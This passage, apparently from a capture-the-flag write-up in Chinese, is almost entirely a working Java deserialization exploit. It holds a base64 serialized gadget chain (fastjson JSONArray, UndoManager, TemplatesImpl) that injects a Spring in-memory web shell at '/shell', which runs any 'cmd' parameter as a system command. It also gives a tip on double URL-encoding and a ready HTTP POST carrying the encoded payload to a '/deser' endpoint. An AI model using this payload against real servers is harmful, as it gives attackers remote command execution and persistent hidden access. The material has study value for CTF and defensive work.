Gl0aW9uL1JlcXVlc3RNZXRob2RzUmVxdWVzdENvbmRpdGlvbjsBAARpbmZvAQA/TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL21ldGhvZC9SZXF1ZXN0TWFwcGluZ0luZm87AQAYc3ByaW5nQ29udHJvbGxlck1lbVNoZWxsBwC3AQAKU291cmNlRmlsZQEAE1NwcmluZ01lbVNoZWxsLmphdmEMADgAOQEAA2NtZAwAvAC9AQAHb3MubmFtZQcAvgwAvwC9DADAAMEBAAN3aW4MAMIAwwEAEGphdmEvbGFuZy9TdHJpbmcBAAJzaAEAAi1jAQAHY21kLmV4ZQEAAi9jBwDEDADFAMYMAMcAyAcAyQwAygDLAQARamF2YS91dGlsL1NjYW5uZXIMADgAzAEAAlxBDADNAM4MAM8A0AwA0QDBAQAADADSANMHANQMANUA1gwA1wA5BwDYDADZANoBADlvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5zZXJ2bGV0LkRpc3BhdGNoZXJTZXJ2bGV0LkNPTlRFWFQHANsMANwA3QEANW9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvV2ViQXBwbGljYXRpb25Db250ZXh0AQBSb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvbWV0aG9kL2Fubm90YXRpb24vUmVxdWVzdE1hcHBpbmdIYW5kbGVyTWFwcGluZwwA3gDfBwDgDADhAOIMAOMA5AcA5QwA5gDnDADoAOkHAOoBAFJvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvJEJ1aWxkZXJDb25maWd1cmF0aW9uAQAWb3JnL3NodS9TcHJpbmdNZW1TaGVsbAEAD2phdmEvbGFuZy9DbGFzcwEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QBACZqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZQwA6wDsAQBMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvY29uZGl0aW9uL1JlcXVlc3RNZXRob2RzUmVxdWVzdENvbmRpdGlvbgEANW9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2JpbmQvYW5ub3RhdGlvbi9SZXF1ZXN0TWV0aG9kDAA4AO0BAAYvc2hlbGwMAO4A8AcA8QwA8gDzDAD0APUMAPYA9wEAE2phdmEvbGFuZy9FeGNlcHRpb24BAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JbnB1dFN0cmVhbQEAE2phdmEvaW8vSU9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAAxnZXRQYXJhbWV0ZXIBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAEGphdmEvbGFuZy9TeXN0ZW0BAAtnZXRQcm9wZXJ0eQEAC3RvTG93ZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQAMdXNlRGVsaW1pdGVyAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS91dGlsL1NjYW5uZXI7AQAHaGFzTmV4dAEAAygpWgEABG5leHQBAAlnZXRXcml0ZXIBABcoKUxqYXZhL2lvL1ByaW50V3JpdGVyOwEAE2phdmEvaW8vUHJpbnRXcml0ZXIBAAV3cml0ZQEAFShMamF2YS9sYW5nL1N0cmluZzspVgEABWZsdXNoAQA8b3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9yZXF1ZXN0L1JlcXVlc3RDb250ZXh0SG9sZGVyAQAYY3VycmVudFJlcXVlc3RBdHRyaWJ1dGVzAQA9KClMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9yZXF1ZXN0L1JlcXVlc3RBdHRyaWJ1dGVzOwEAOW9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvcmVxdWVzdC9SZXF1ZXN0QXR0cmlidXRlcwEADGdldEF0dHJpYnV0ZQEAJyhMamF2YS9sYW5nL1N0cmluZztJKUxqYXZhL2xhbmcvT2JqZWN0OwEAB2dldEJlYW4BACUoTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9PYmplY3Q7AQAQamF2YS9sYW5nL09iamVjdAEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAEADXNldEFjY2Vzc2libGUBAAQoWilWAQADZ2V0AQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBAD1vcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvAQAJZ2V0TWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEAOyhbTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2JpbmQvYW5ub3RhdGlvbi9SZXF1ZXN0TWV0aG9kOylWAQAFcGF0aHMBAAdCdWlsZGVyAQBcKFtMamF2YS9sYW5nL1N0cmluZzspTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL21ldGhvZC9SZXF1ZXN0TWFwcGluZ0luZm8kQnVpbGRlcjsBAEVvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvJEJ1aWxkZXIBAAdvcHRpb25zAQCdKExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvJEJ1aWxkZXJDb25maWd1cmF0aW9uOylMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbyRCdWlsZGVyOwEABWJ1aWxkAQBBKClMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbzsBAA9yZWdpc3Rlck1hcHBpbmcBAG4oTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL21ldGhvZC9SZXF1ZXN0TWFwcGluZ0luZm87TGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDspVgAhACcANwAAAAAABQABADgAOQABADoAAAAvAAEAAQAAAAUqtwABsQAAAAIAOwAAAAYAAQAAABUAPAAAAAwAAQAAAAUAPQA+AAAAAQA/AEAAAgA6AAABgwAFAAkAAACpKxICuQADAgDGAKAEPhIEuAAFOgQZBMYAEhkEtgAGEge2AAiZAAUDPh2ZAB8GvQAJWQMSClNZBBILU1kFKxICuQADAgBTpwAcBr0ACVkDEgxTWQQSDVNZBSsSArkAAwIAUzoFuAAOGQW2AA+2ABA6BrsAEVkZBrcAEhITtgAUOgcZB7YAFZkACxkHtgAWpwAFEhc6CCy5ABgBABkItgAZLLkAGAEAtgAasQAAAAMAOwAAADIADAAAACwACwAtAA0ALgAUAC8AJgAwACgAMgBjADMAcAA0AIAANQCUADYAnwA3AKgAOQA8AAAAXAAJAA0AmwBBAEIAAwAUAJQAQwBEAAQAYwBFAEUARgAFAHAAOABHAEgABgCAACgASQBKAAcAlAAUAEsARAAIAAAAqQA9AD4AAAAAAKkATABNAAEAAACpAE4ATwACAFAAAAAuAAb9ACgBBwBRH1gHAFL+AC4HAFIHAFMHAFRBBwBR/wAVAAMHAFUHAFYHAFcAAABYAAAABAABAFkAAQBaAFsAAgA6AAAAPwAAAAMAAAABsQAAAAIAOwAAAAYAAQAAAD4APAAAACAAAwAAAAEAPQA+AAAAAAABAFwAXQABAAAAAQBeAF8AAgBYAAAABAABAGAAAQBaAGEAAgA6AAAASQAAAAQAAAABsQAAAAIAOwAAAAYAAQAAAEMAPAAAACoABAAAAAEAPQA+AAAAAAABAFwAXQABAAAAAQBiAGMAAgAAAAEAZABlAAMAWAAAAAQAAQBgAAgAZgA5AAEAOgAAAUsABgAIAAAAiLgAGxIcA7kAHQMAwAAeSyoSH7kAIAIAwAAfTCu2ACESIrYAI00sBLYAJCwrtgAlwAAmThInEigFvQApWQMSKlNZBBIrU7YALDoEuwAtWQO9AC63AC86BQS9AAlZAxIwU7gAMS25ADICALkAMwEAOga7ACdZtwA0OgcrGQYZBxkEtgA1pwAES7EAAQAAAIMAhgA2AAMAOwAAAEIAEAAAABgADwAZABsAGgAlABsAKgAcACwAHQAzAB4ASgAfAFcAIABkACEAaQAiAHAAIwB5ACQAgwAoAIYAJgCHACkAPAAAAFIACAAPAHQAZwBoAAAAGwBoAGkAagABACUAXgBrAGwAAgAzAFAAbQBwAAMASgA5AHEAcgAEAFcALABzAHQABQBwABMAdQB2AAYAeQAKAHcAPgAHAFAAAAAJAAL3AIYHAHgAAAIAeQAAAAIAegBvAAAAEgACACYApwBuAAkAswCnAO8GCXB0AAExcHcBAHh1cQB+AAYAAAAuMCwCFGkaI07whMfMXbmbbmsbrlReWJMFAhQyD4243AVfXU/YzgZpuBiz5rHf6nQAA0RTQXNyACNqYXZheC5zd2luZy5ldmVudC5FdmVudExpc3RlbmVyTGlzdLE2xn2E6tZEAwAAeHB0ABdqYXZhLmxhbmcuSW50ZXJuYWxFcnJvcnNyABxqYXZheC5zd2luZy51bmRvLlVuZG9NYW5hZ2Vy4ysheUxxykICAAJJAA5pbmRleE9mTmV4dEFkZEkABWxpbWl0eHIAHWphdmF4LnN3aW5nLnVuZG8uQ29tcG91bmRFZGl0pZ5QulPblf0CAAJaAAppblByb2dyZXNzTAAFZWRpdHN0ABJMamF2YS91dGlsL1ZlY3Rvcjt4cgAlamF2YXguc3dpbmcudW5kby5BYnN0cmFjdFVuZG9hYmxlRWRpdAgNG47tAgsQAgACWgAFYWxpdmVaAAtoYXNCZWVuRG9uZXhwAQEBc3IAEGphdmEudXRpbC5WZWN0b3LZl31bgDuvAQMAA0kAEWNhcGFjaXR5SW5jcmVtZW50SQAMZWxlbWVudENvdW50WwALZWxlbWVudERhdGF0ABNbTGphdmEvbGFuZy9PYmplY3Q7eHAAAAAAAAAAAXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAGRzcgAeY29tLmFsaWJhYmEuZmFzdGpzb24uSlNPTkFycmF5AAAAAAAAAAECAAFMAARsaXN0dAAQTGphdmEvdXRpbC9MaXN0O3hwc3IAE2phdmEudXRpbC5BcnJheUxpc3R4gdIdmcdhnQMAAUkABHNpemV4cAAAAAF3BAAAAAFxAH4ABXhwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHB4AAAAAAAAAGRweHg=
```

用bp发包一定要二次编码



不然会导致+号被当成空格之类的

生成的payload

```
POST /deser HTTP/1.1
Host: node.vnteam.cn:46870
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 28484

payload=%72%4f%30%41%42%58%4e%79%41%42%46%71%59%58%5a%68%4c%6e%56%30%61%57%77%75%53%47%46%7a%61%45%31%68%63%41%55%48%32%73%48%44%46%6d%44%52%41%77%41%43%52%67%41%4b%62%47%39%68%5a%45%5a%68%59%33%52%76%63%6b%6b%41%43%58%52%6f%63%6d%56%7a%61%47%39%73%5a%48%68%77%50%30%41%41%41%41%41%41%41%41%78%33%43%41%41%41%41%42%41%41%41%41%41%42%63%33%49%41%47%6d%70%68%64%6d%45%75%63%32%56%6a%64%58%4a%70%64%48%6b%75%55%32%6c%6e%62%6d%56%6b%54%32%4a%71%5a%57%4e%30%43%66%2b%39%61%43%6f%38%31%66%38%43%41%41%4e%62%41%41%64%6a%62%32%35%30%5a%57%35%30%64%41%41%43%57%30%4a%62%41%41%6c%7a%61%57%64%75%59%58%52%31%63%6d%56%78%41%48%34%41%41%30%77%41%44%48%52%6f%5a%57%46%73%5a%32%39%79%61%58%52%6f%62%58%51%41%45%6b%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%33%68%77%64%58%49%41%41%6c%74%43%72%50%4d%58%2b%41%59%49%56%4f%41%43%41%41%42%34%63%41%41%41%46%2f%65%73%37%51%41%46%63%33%49%41%4f%6d%4e%76%62%53%35%7a%64%57%34%75%62%33%4a%6e%4c%6d%46%77%59%57%4e%6f%5a%53%35%34%59%57%78%68%62%69%35%70%62%6e%52%6c%63%6d%35%68%62%43%35%34%63%32%78%30%59%79%35%30%63%6d%46%34%4c%6c%52%6c%62%58%42%73%59%58%52%6c%63%30%6c%74%63%47%77%4a%56%30%2f%42%62%71%79%72%4d%77%4d%41%42%6b%6b%41%44%56%39%70%62%6d%52%6c%62%6e%52%4f%64%57%31%69%5a%58%4a%4a%41%41%35%66%64%48%4a%68%62%6e%4e%73%5a%58%52%4a%62%6d%52%6c%65%46%73%41%43%6c%39%69%65%58%52%6c%59%32%39%6b%5a%58%4e%30%41%41%4e%62%57%30%4a%62%41%41%5a%66%59%32%78%68%63%33%4e%30%41%42%4a%62%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%44%62%47%46%7a%63%7a%74%4d%41%41%56%66%62%6d%46%74%5a%58%51%41%45%6b%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%30%77%41%45%56%39%76%64%58%52%77%64%58%52%51%63%6d%39%77%5a%58%4a%30%61%57%56%7a%64%41%41%57%54%47%70%68%64%6d%45%76%64%58%52%70%62%43%39%51%63%6d%39%77%5a%58%4a%30%61%57%56%7a%4f%33%68%77%41%41%41%41%41%50%2f%2f%2f%2f%39%31%63%67%41%44%57%31%74%43%53%2f%30%5a%46%57%64%6e%32%7a%63%43%41%41%42%34%63%41%41%41%41%41%46%31%63%67%41%43%57%30%4b%73%38%78%66%34%42%67%68%55%34%41%49%41%41%48%68%77%41%41%41%57%79%38%72%2b%75%72%34%41%41%41%41%30%41%50%67%4b%41%44%63%41%65%77%67%41%66%41%73%41%4b%67%42%39%43%41%42%2b%43%67%42%2f%41%49%41%4b%41%41%6b%41%67%51%67%41%67%67%6f%41%43%51%43%44%42%77%43%45%43%41%43%46%43%41%43%47%43%41%43%48%43%41%43%49%43%67%43%4a%41%49%6f%4b%41%49%6b%41%69%77%6f%41%6a%41%43%4e%42%77%43%4f%43%67%41%52%41%49%38%49%41%4a%41%4b%41%42%45%41%6b%51%6f%41%45%51%43%53%43%67%41%52%41%4a%4d%49%41%4a%51%4c%41%43%73%41%6c%51%6f%41%6c%67%43%58%43%67%43%57%41%4a%67%4b%41%4a%6b%41%6d%67%67%41%6d%77%73%41%6e%41%43%64%42%77%43%65%42%77%43%66%43%77%41%65%41%4b%41%4b%41%4b%45%41%6f%67%67%41%62%51%6f%41%4b%51%43%6a%43%67%43%6b%41%4b%55%4b%41%4b%51%41%70%67%63%41%71%41%63%41%71%51%67%41%50%77%63%41%71%67%63%41%71%77%63%41%72%41%6f%41%4b%51%43%74%42%77%43%75%42%77%43%76%43%67%41%74%41%4c%41%49%41%4c%45%4b%41%4b%63%41%73%67%73%41%73%77%43%30%43%77%43%7a%41%4c%55%4b%41%43%63%41%65%77%6f%41%48%77%43%32%42%77%43%33%42%77%43%34%41%51%41%47%50%47%6c%75%61%58%51%2b%41%51%41%44%4b%43%6c%57%41%51%41%45%51%32%39%6b%5a%51%45%41%44%30%78%70%62%6d%56%4f%64%57%31%69%5a%58%4a%55%59%57%4a%73%5a%51%45%41%45%6b%78%76%59%32%46%73%56%6d%46%79%61%57%46%69%62%47%56%55%59%57%4a%73%5a%51%45%41%42%48%52%6f%61%58%4d%42%41%42%68%4d%62%33%4a%6e%4c%33%4e%6f%64%53%39%54%63%48%4a%70%62%6d%64%4e%5a%57%31%54%61%47%56%73%62%44%73%42%41%41%56%7a%61%47%56%73%62%41%45%41%55%69%68%4d%61%6d%46%32%59%58%67%76%63%32%56%79%64%6d%78%6c%64%43%39%6f%64%48%52%77%4c%30%68%30%64%48%42%54%5a%58%4a%32%62%47%56%30%55%6d%56%78%64%57%56%7a%64%44%74%4d%61%6d%46%32%59%58%67%76%63%32%56%79%64%6d%78%6c%64%43%39%6f%64%48%52%77%4c%30%68%30%64%48%42%54%5a%58%4a%32%62%47%56%30%55%6d%56%7a%63%47%39%75%63%32%55%37%4b%56%59%42%41%41%64%70%63%30%78%70%62%6e%56%34%41%51%41%42%57%67%45%41%42%57%39%7a%56%48%6c%77%41%51%41%53%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%64%48%4a%70%62%6d%63%37%41%51%41%45%59%32%31%6b%63%77%45%41%45%31%74%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%42%41%41%4a%70%62%67%45%41%46%55%78%71%59%58%5a%68%4c%32%6c%76%4c%30%6c%75%63%48%56%30%55%33%52%79%5a%57%46%74%4f%77%45%41%41%58%4d%42%41%42%4e%4d%61%6d%46%32%59%53%39%31%64%47%6c%73%4c%31%4e%6a%59%57%35%75%5a%58%49%37%41%51%41%47%62%33%56%30%63%48%56%30%41%51%41%48%63%6d%56%78%64%57%56%7a%64%41%45%41%4a%30%78%71%59%58%5a%68%65%43%39%7a%5a%58%4a%32%62%47%56%30%4c%32%68%30%64%48%41%76%53%48%52%30%63%46%4e%6c%63%6e%5a%73%5a%58%52%53%5a%58%46%31%5a%58%4e%30%4f%77%45%41%43%48%4a%6c%63%33%42%76%62%6e%4e%6c%41%51%41%6f%54%47%70%68%64%6d%46%34%4c%33%4e%6c%63%6e%5a%73%5a%58%51%76%61%48%52%30%63%43%39%49%64%48%52%77%55%32%56%79%64%6d%78%6c%64%46%4a%6c%63%33%42%76%62%6e%4e%6c%4f%77%45%41%44%56%4e%30%59%57%4e%72%54%57%46%77%56%47%46%69%62%47%55%48%41%49%51%48%41%45%59%48%41%4c%6b%48%41%49%34%48%41%4b%6b%48%41%4b%73%48%41%4b%77%42%41%41%70%46%65%47%4e%6c%63%48%52%70%62%32%35%7a%42%77%43%36%41%51%41%4a%64%48%4a%68%62%6e%4e%6d%62%33%4a%74%41%51%42%79%4b%45%78%6a%62%32%30%76%63%33%56%75%4c%32%39%79%5a%79%39%68%63%47%46%6a%61%47%55%76%65%47%46%73%59%57%34%76%61%57%35%30%5a%58%4a%75%59%57%77%76%65%48%4e%73%64%47%4d%76%52%45%39%4e%4f%31%74%4d%59%32%39%74%4c%33%4e%31%62%69%39%76%63%6d%63%76%59%58%42%68%59%32%68%6c%4c%33%68%74%62%43%39%70%62%6e%52%6c%63%6d%35%68%62%43%39%7a%5a%58%4a%70%59%57%78%70%65%6d%56%79%4c%31%4e%6c%63%6d%6c%68%62%47%6c%36%59%58%52%70%62%32%35%49%59%57%35%6b%62%47%56%79%4f%79%6c%57%41%51%41%49%5a%47%39%6a%64%57%31%6c%62%6e%51%42%41%43%31%4d%59%32%39%74%4c%33%4e%31%62%69%39%76%63%6d%63%76%59%58%42%68%59%32%68%6c%4c%33%68%68%62%47%46%75%4c%32%6c%75%64%47%56%79%62%6d%46%73%4c%33%68%7a%62%48%52%6a%4c%30%52%50%54%54%73%42%41%41%68%6f%59%57%35%6b%62%47%56%79%63%77%45%41%51%6c%74%4d%59%32%39%74%4c%33%4e%31%62%69%39%76%63%6d%63%76%59%58%42%68%59%32%68%6c%4c%33%68%74%62%43%39%70%62%6e%52%6c%63%6d%35%68%62%43%39%7a%5a%58%4a%70%59%57%78%70%65%6d%56%79%4c%31%4e%6c%63%6d%6c%68%62%47%6c%36%59%58%52%70%62%32%35%49%59%57%35%6b%62%47%56%79%4f%77%63%41%75%77%45%41%70%69%68%4d%59%32%39%74%4c%33%4e%31%62%69%39%76%63%6d%63%76%59%58%42%68%59%32%68%6c%4c%33%68%68%62%47%46%75%4c%32%6c%75%64%47%56%79%62%6d%46%73%4c%33%68%7a%62%48%52%6a%4c%30%52%50%54%54%74%4d%59%32%39%74%4c%33%4e%31%62%69%39%76%63%6d%63%76%59%58%42%68%59%32%68%6c%4c%33%68%74%62%43%39%70%62%6e%52%6c%63%6d%35%68%62%43%39%6b%64%47%30%76%52%46%52%4e%51%58%68%70%63%30%6c%30%5a%58%4a%68%64%47%39%79%4f%30%78%6a%62%32%30%76%63%33%56%75%4c%32%39%79%5a%79%39%68%63%47%46%6a%61%47%55%76%65%47%31%73%4c%32%6c%75%64%47%56%79%62%6d%46%73%4c%33%4e%6c%63%6d%6c%68%62%47%6c%36%5a%58%49%76%55%32%56%79%61%57%46%73%61%58%70%68%64%47%6c%76%62%6b%68%68%62%6d%52%73%5a%58%49%37%4b%56%59%42%41%41%68%70%64%47%56%79%59%58%52%76%63%67%45%41%4e%55%78%6a%62%32%30%76%63%33%56%75%4c%32%39%79%5a%79%39%68%63%47%46%6a%61%47%55%76%65%47%31%73%4c%32%6c%75%64%47%56%79%62%6d%46%73%4c%32%52%30%62%53%39%45%56%45%31%42%65%47%6c%7a%53%58%52%6c%63%6d%46%30%62%33%49%37%41%51%41%48%61%47%46%75%5a%47%78%6c%63%67%45%41%51%55%78%6a%62%32%30%76%63%33%56%75%4c%32%39%79%5a%79%39%68%63%47%46%6a%61%47%55%76%65%47%31%73%4c%32%6c%75%64%47%56%79%62%6d%46%73%4c%33%4e%6c%63%6d%6c%68%62%47%6c%36%5a%58%49%76%55%32%56%79%61%57%46%73%61%58%70%68%64%47%6c%76%62%6b%68%68%62%6d%52%73%5a%58%49%37%41%51%41%49%50%47%4e%73%61%57%35%70%64%44%34%42%41%41%64%6a%62%32%35%30%5a%58%68%30%41%51%41%33%54%47%39%79%5a%79%39%7a%63%48%4a%70%62%6d%64%6d%63%6d%46%74%5a%58%64%76%63%6d%73%76%64%32%56%69%4c%32%4e%76%62%6e%52%6c%65%48%51%76%56%32%56%69%51%58%42%77%62%47%6c%6a%59%58%52%70%62%32%35%44%62%32%35%30%5a%58%68%30%4f%77%45%41%46%57%31%68%63%48%42%70%62%6d%64%49%59%57%35%6b%62%47%56%79%54%57%46%77%63%47%6c%75%5a%77%45%41%56%45%78%76%63%6d%63%76%63%33%42%79%61%57%35%6e%5a%6e%4a%68%62%57%56%33%62%33%4a%72%4c%33%64%6c%59%69%39%7a%5a%58%4a%32%62%47%56%30%4c%32%31%32%59%79%39%74%5a%58%52%6f%62%32%51%76%59%57%35%75%62%33%52%68%64%47%6c%76%62%69%39%53%5a%58%46%31%5a%58%4e%30%54%57%46%77%63%47%6c%75%5a%30%68%68%62%6d%52%73%5a%58%4a%4e%59%58%42%77%61%57%35%6e%4f%77%45%41%43%32%4e%76%62%6d%5a%70%5a%30%5a%70%5a%57%78%6b%41%51%41%5a%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%79%5a%57%5a%73%5a%57%4e%30%4c%30%5a%70%5a%57%78%6b%4f%77%45%41%42%6d%4e%76%62%6d%5a%70%5a%77%45%41%46%45%4a%31%61%57%78%6b%5a%58%4a%44%62%32%35%6d%61%57%64%31%63%6d%46%30%61%57%39%75%41%51%41%4d%53%57%35%75%5a%58%4a%44%62%47%46%7a%63%32%56%7a%41%51%42%55%54%47%39%79%5a%79%39%7a%63%48%4a%70%62%6d%64%6d%63%6d%46%74%5a%58%64%76%63%6d%73%76%64%32%56%69%4c%33%4e%6c%63%6e%5a%73%5a%58%51%76%62%58%5a%6a%4c%32%31%6c%64%47%68%76%5a%43%39%53%5a%58%46%31%5a%58%4e%30%54%57%46%77%63%47%6c%75%5a%30%6c%75%5a%6d%38%6b%51%6e%56%70%62%47%52%6c%63%6b%4e%76%62%6d%5a%70%5a%33%56%79%59%58%52%70%62%32%34%37%41%51%41%48%62%57%56%30%61%47%39%6b%4d%67%45%41%47%6b%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%63%6d%56%6d%62%47%56%6a%64%43%39%4e%5a%58%52%6f%62%32%51%37%41%51%41%43%62%58%4d%42%41%45%35%4d%62%33%4a%6e%4c%33%4e%77%63%6d%6c%75%5a%32%5a%79%59%57%31%6c%64%32%39%79%61%79%39%33%5a%57%49%76%63%32%56%79%64%6d%78%6c%64%43%39%74%64%6d%4d%76%59%32%39%75%5a%47%6c%30%61%57%39%75%4c%31%4a%6c%63%58%56%6c%63%33%52%4e%5a%58%52%6f%62%32%52%7a%55%6d%56%78%64%57%56%7a%64%45%4e%76%62%6d%52%70%64%47%6c%76%62%6a%73%42%41%41%52%70%62%6d%5a%76%41%51%41%2f%54%47%39%79%5a%79%39%7a%63%48%4a%70%62%6d%64%6d%63%6d%46%74%5a%58%64%76%63%6d%73%76%64%32%56%69%4c%33%4e%6c%63%6e%5a%73%5a%58%51%76%62%58%5a%6a%4c%32%31%6c%64%47%68%76%5a%43%39%53%5a%58%46%31%5a%58%4e%30%54%57%46%77%63%47%6c%75%5a%30%6c%75%5a%6d%38%37%41%51%41%59%63%33%42%79%61%57%35%6e%51%32%39%75%64%48%4a%76%62%47%78%6c%63%6b%31%6c%62%56%4e%6f%5a%57%78%73%42%77%43%33%41%51%41%4b%55%32%39%31%63%6d%4e%6c%52%6d%6c%73%5a%51%45%41%45%31%4e%77%63%6d%6c%75%5a%30%31%6c%62%56%4e%6f%5a%57%78%73%4c%6d%70%68%64%6d%45%4d%41%44%67%41%4f%51%45%41%41%32%4e%74%5a%41%77%41%76%41%43%39%41%51%41%48%62%33%4d%75%62%6d%46%74%5a%51%63%41%76%67%77%41%76%77%43%39%44%41%44%41%41%4d%45%42%41%41%4e%33%61%57%34%4d%41%4d%49%41%77%77%45%41%45%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%64%48%4a%70%62%6d%63%42%41%41%4a%7a%61%41%45%41%41%69%31%6a%41%51%41%48%59%32%31%6b%4c%6d%56%34%5a%51%45%41%41%69%39%6a%42%77%44%45%44%41%44%46%41%4d%59%4d%41%4d%63%41%79%41%63%41%79%51%77%41%79%67%44%4c%41%51%41%52%61%6d%46%32%59%53%39%31%64%47%6c%73%4c%31%4e%6a%59%57%35%75%5a%58%49%4d%41%44%67%41%7a%41%45%41%41%6c%78%42%44%41%44%4e%41%4d%34%4d%41%4d%38%41%30%41%77%41%30%51%44%42%41%51%41%41%44%41%44%53%41%4e%4d%48%41%4e%51%4d%41%4e%55%41%31%67%77%41%31%77%41%35%42%77%44%59%44%41%44%5a%41%4e%6f%42%41%44%6c%76%63%6d%63%75%63%33%42%79%61%57%35%6e%5a%6e%4a%68%62%57%56%33%62%33%4a%72%4c%6e%64%6c%59%69%35%7a%5a%58%4a%32%62%47%56%30%4c%6b%52%70%63%33%42%68%64%47%4e%6f%5a%58%4a%54%5a%58%4a%32%62%47%56%30%4c%6b%4e%50%54%6c%52%46%57%46%51%48%41%4e%73%4d%41%4e%77%41%33%51%45%41%4e%57%39%79%5a%79%39%7a%63%48%4a%70%62%6d%64%6d%63%6d%46%74%5a%58%64%76%63%6d%73%76%64%32%56%69%4c%32%4e%76%62%6e%52%6c%65%48%51%76%56%32%56%69%51%58%42%77%62%47%6c%6a%59%58%52%70%62%32%35%44%62%32%35%30%5a%58%68%30%41%51%42%53%62%33%4a%6e%4c%33%4e%77%63%6d%6c%75%5a%32%5a%79%59%57%31%6c%64%32%39%79%61%79%39%33%5a%57%49%76%63%32%56%79%64%6d%78%6c%64%43%39%74%64%6d%4d%76%62%57%56%30%61%47%39%6b%4c%32%46%75%62%6d%39%30%59%58%52%70%62%32%34%76%55%6d%56%78%64%57%56%7a%64%45%31%68%63%48%42%70%62%6d%64%49%59%57%35%6b%62%47%56%79%54%57%46%77%63%47%6c%75%5a%77%77%41%33%67%44%66%42%77%44%67%44%41%44%68%41%4f%49%4d%41%4f%4d%41%35%41%63%41%35%51%77%41%35%67%44%6e%44%41%44%6f%41%4f%6b%48%41%4f%6f%42%41%46%4a%76%63%6d%63%76%63%33%42%79%61%57%35%6e%5a%6e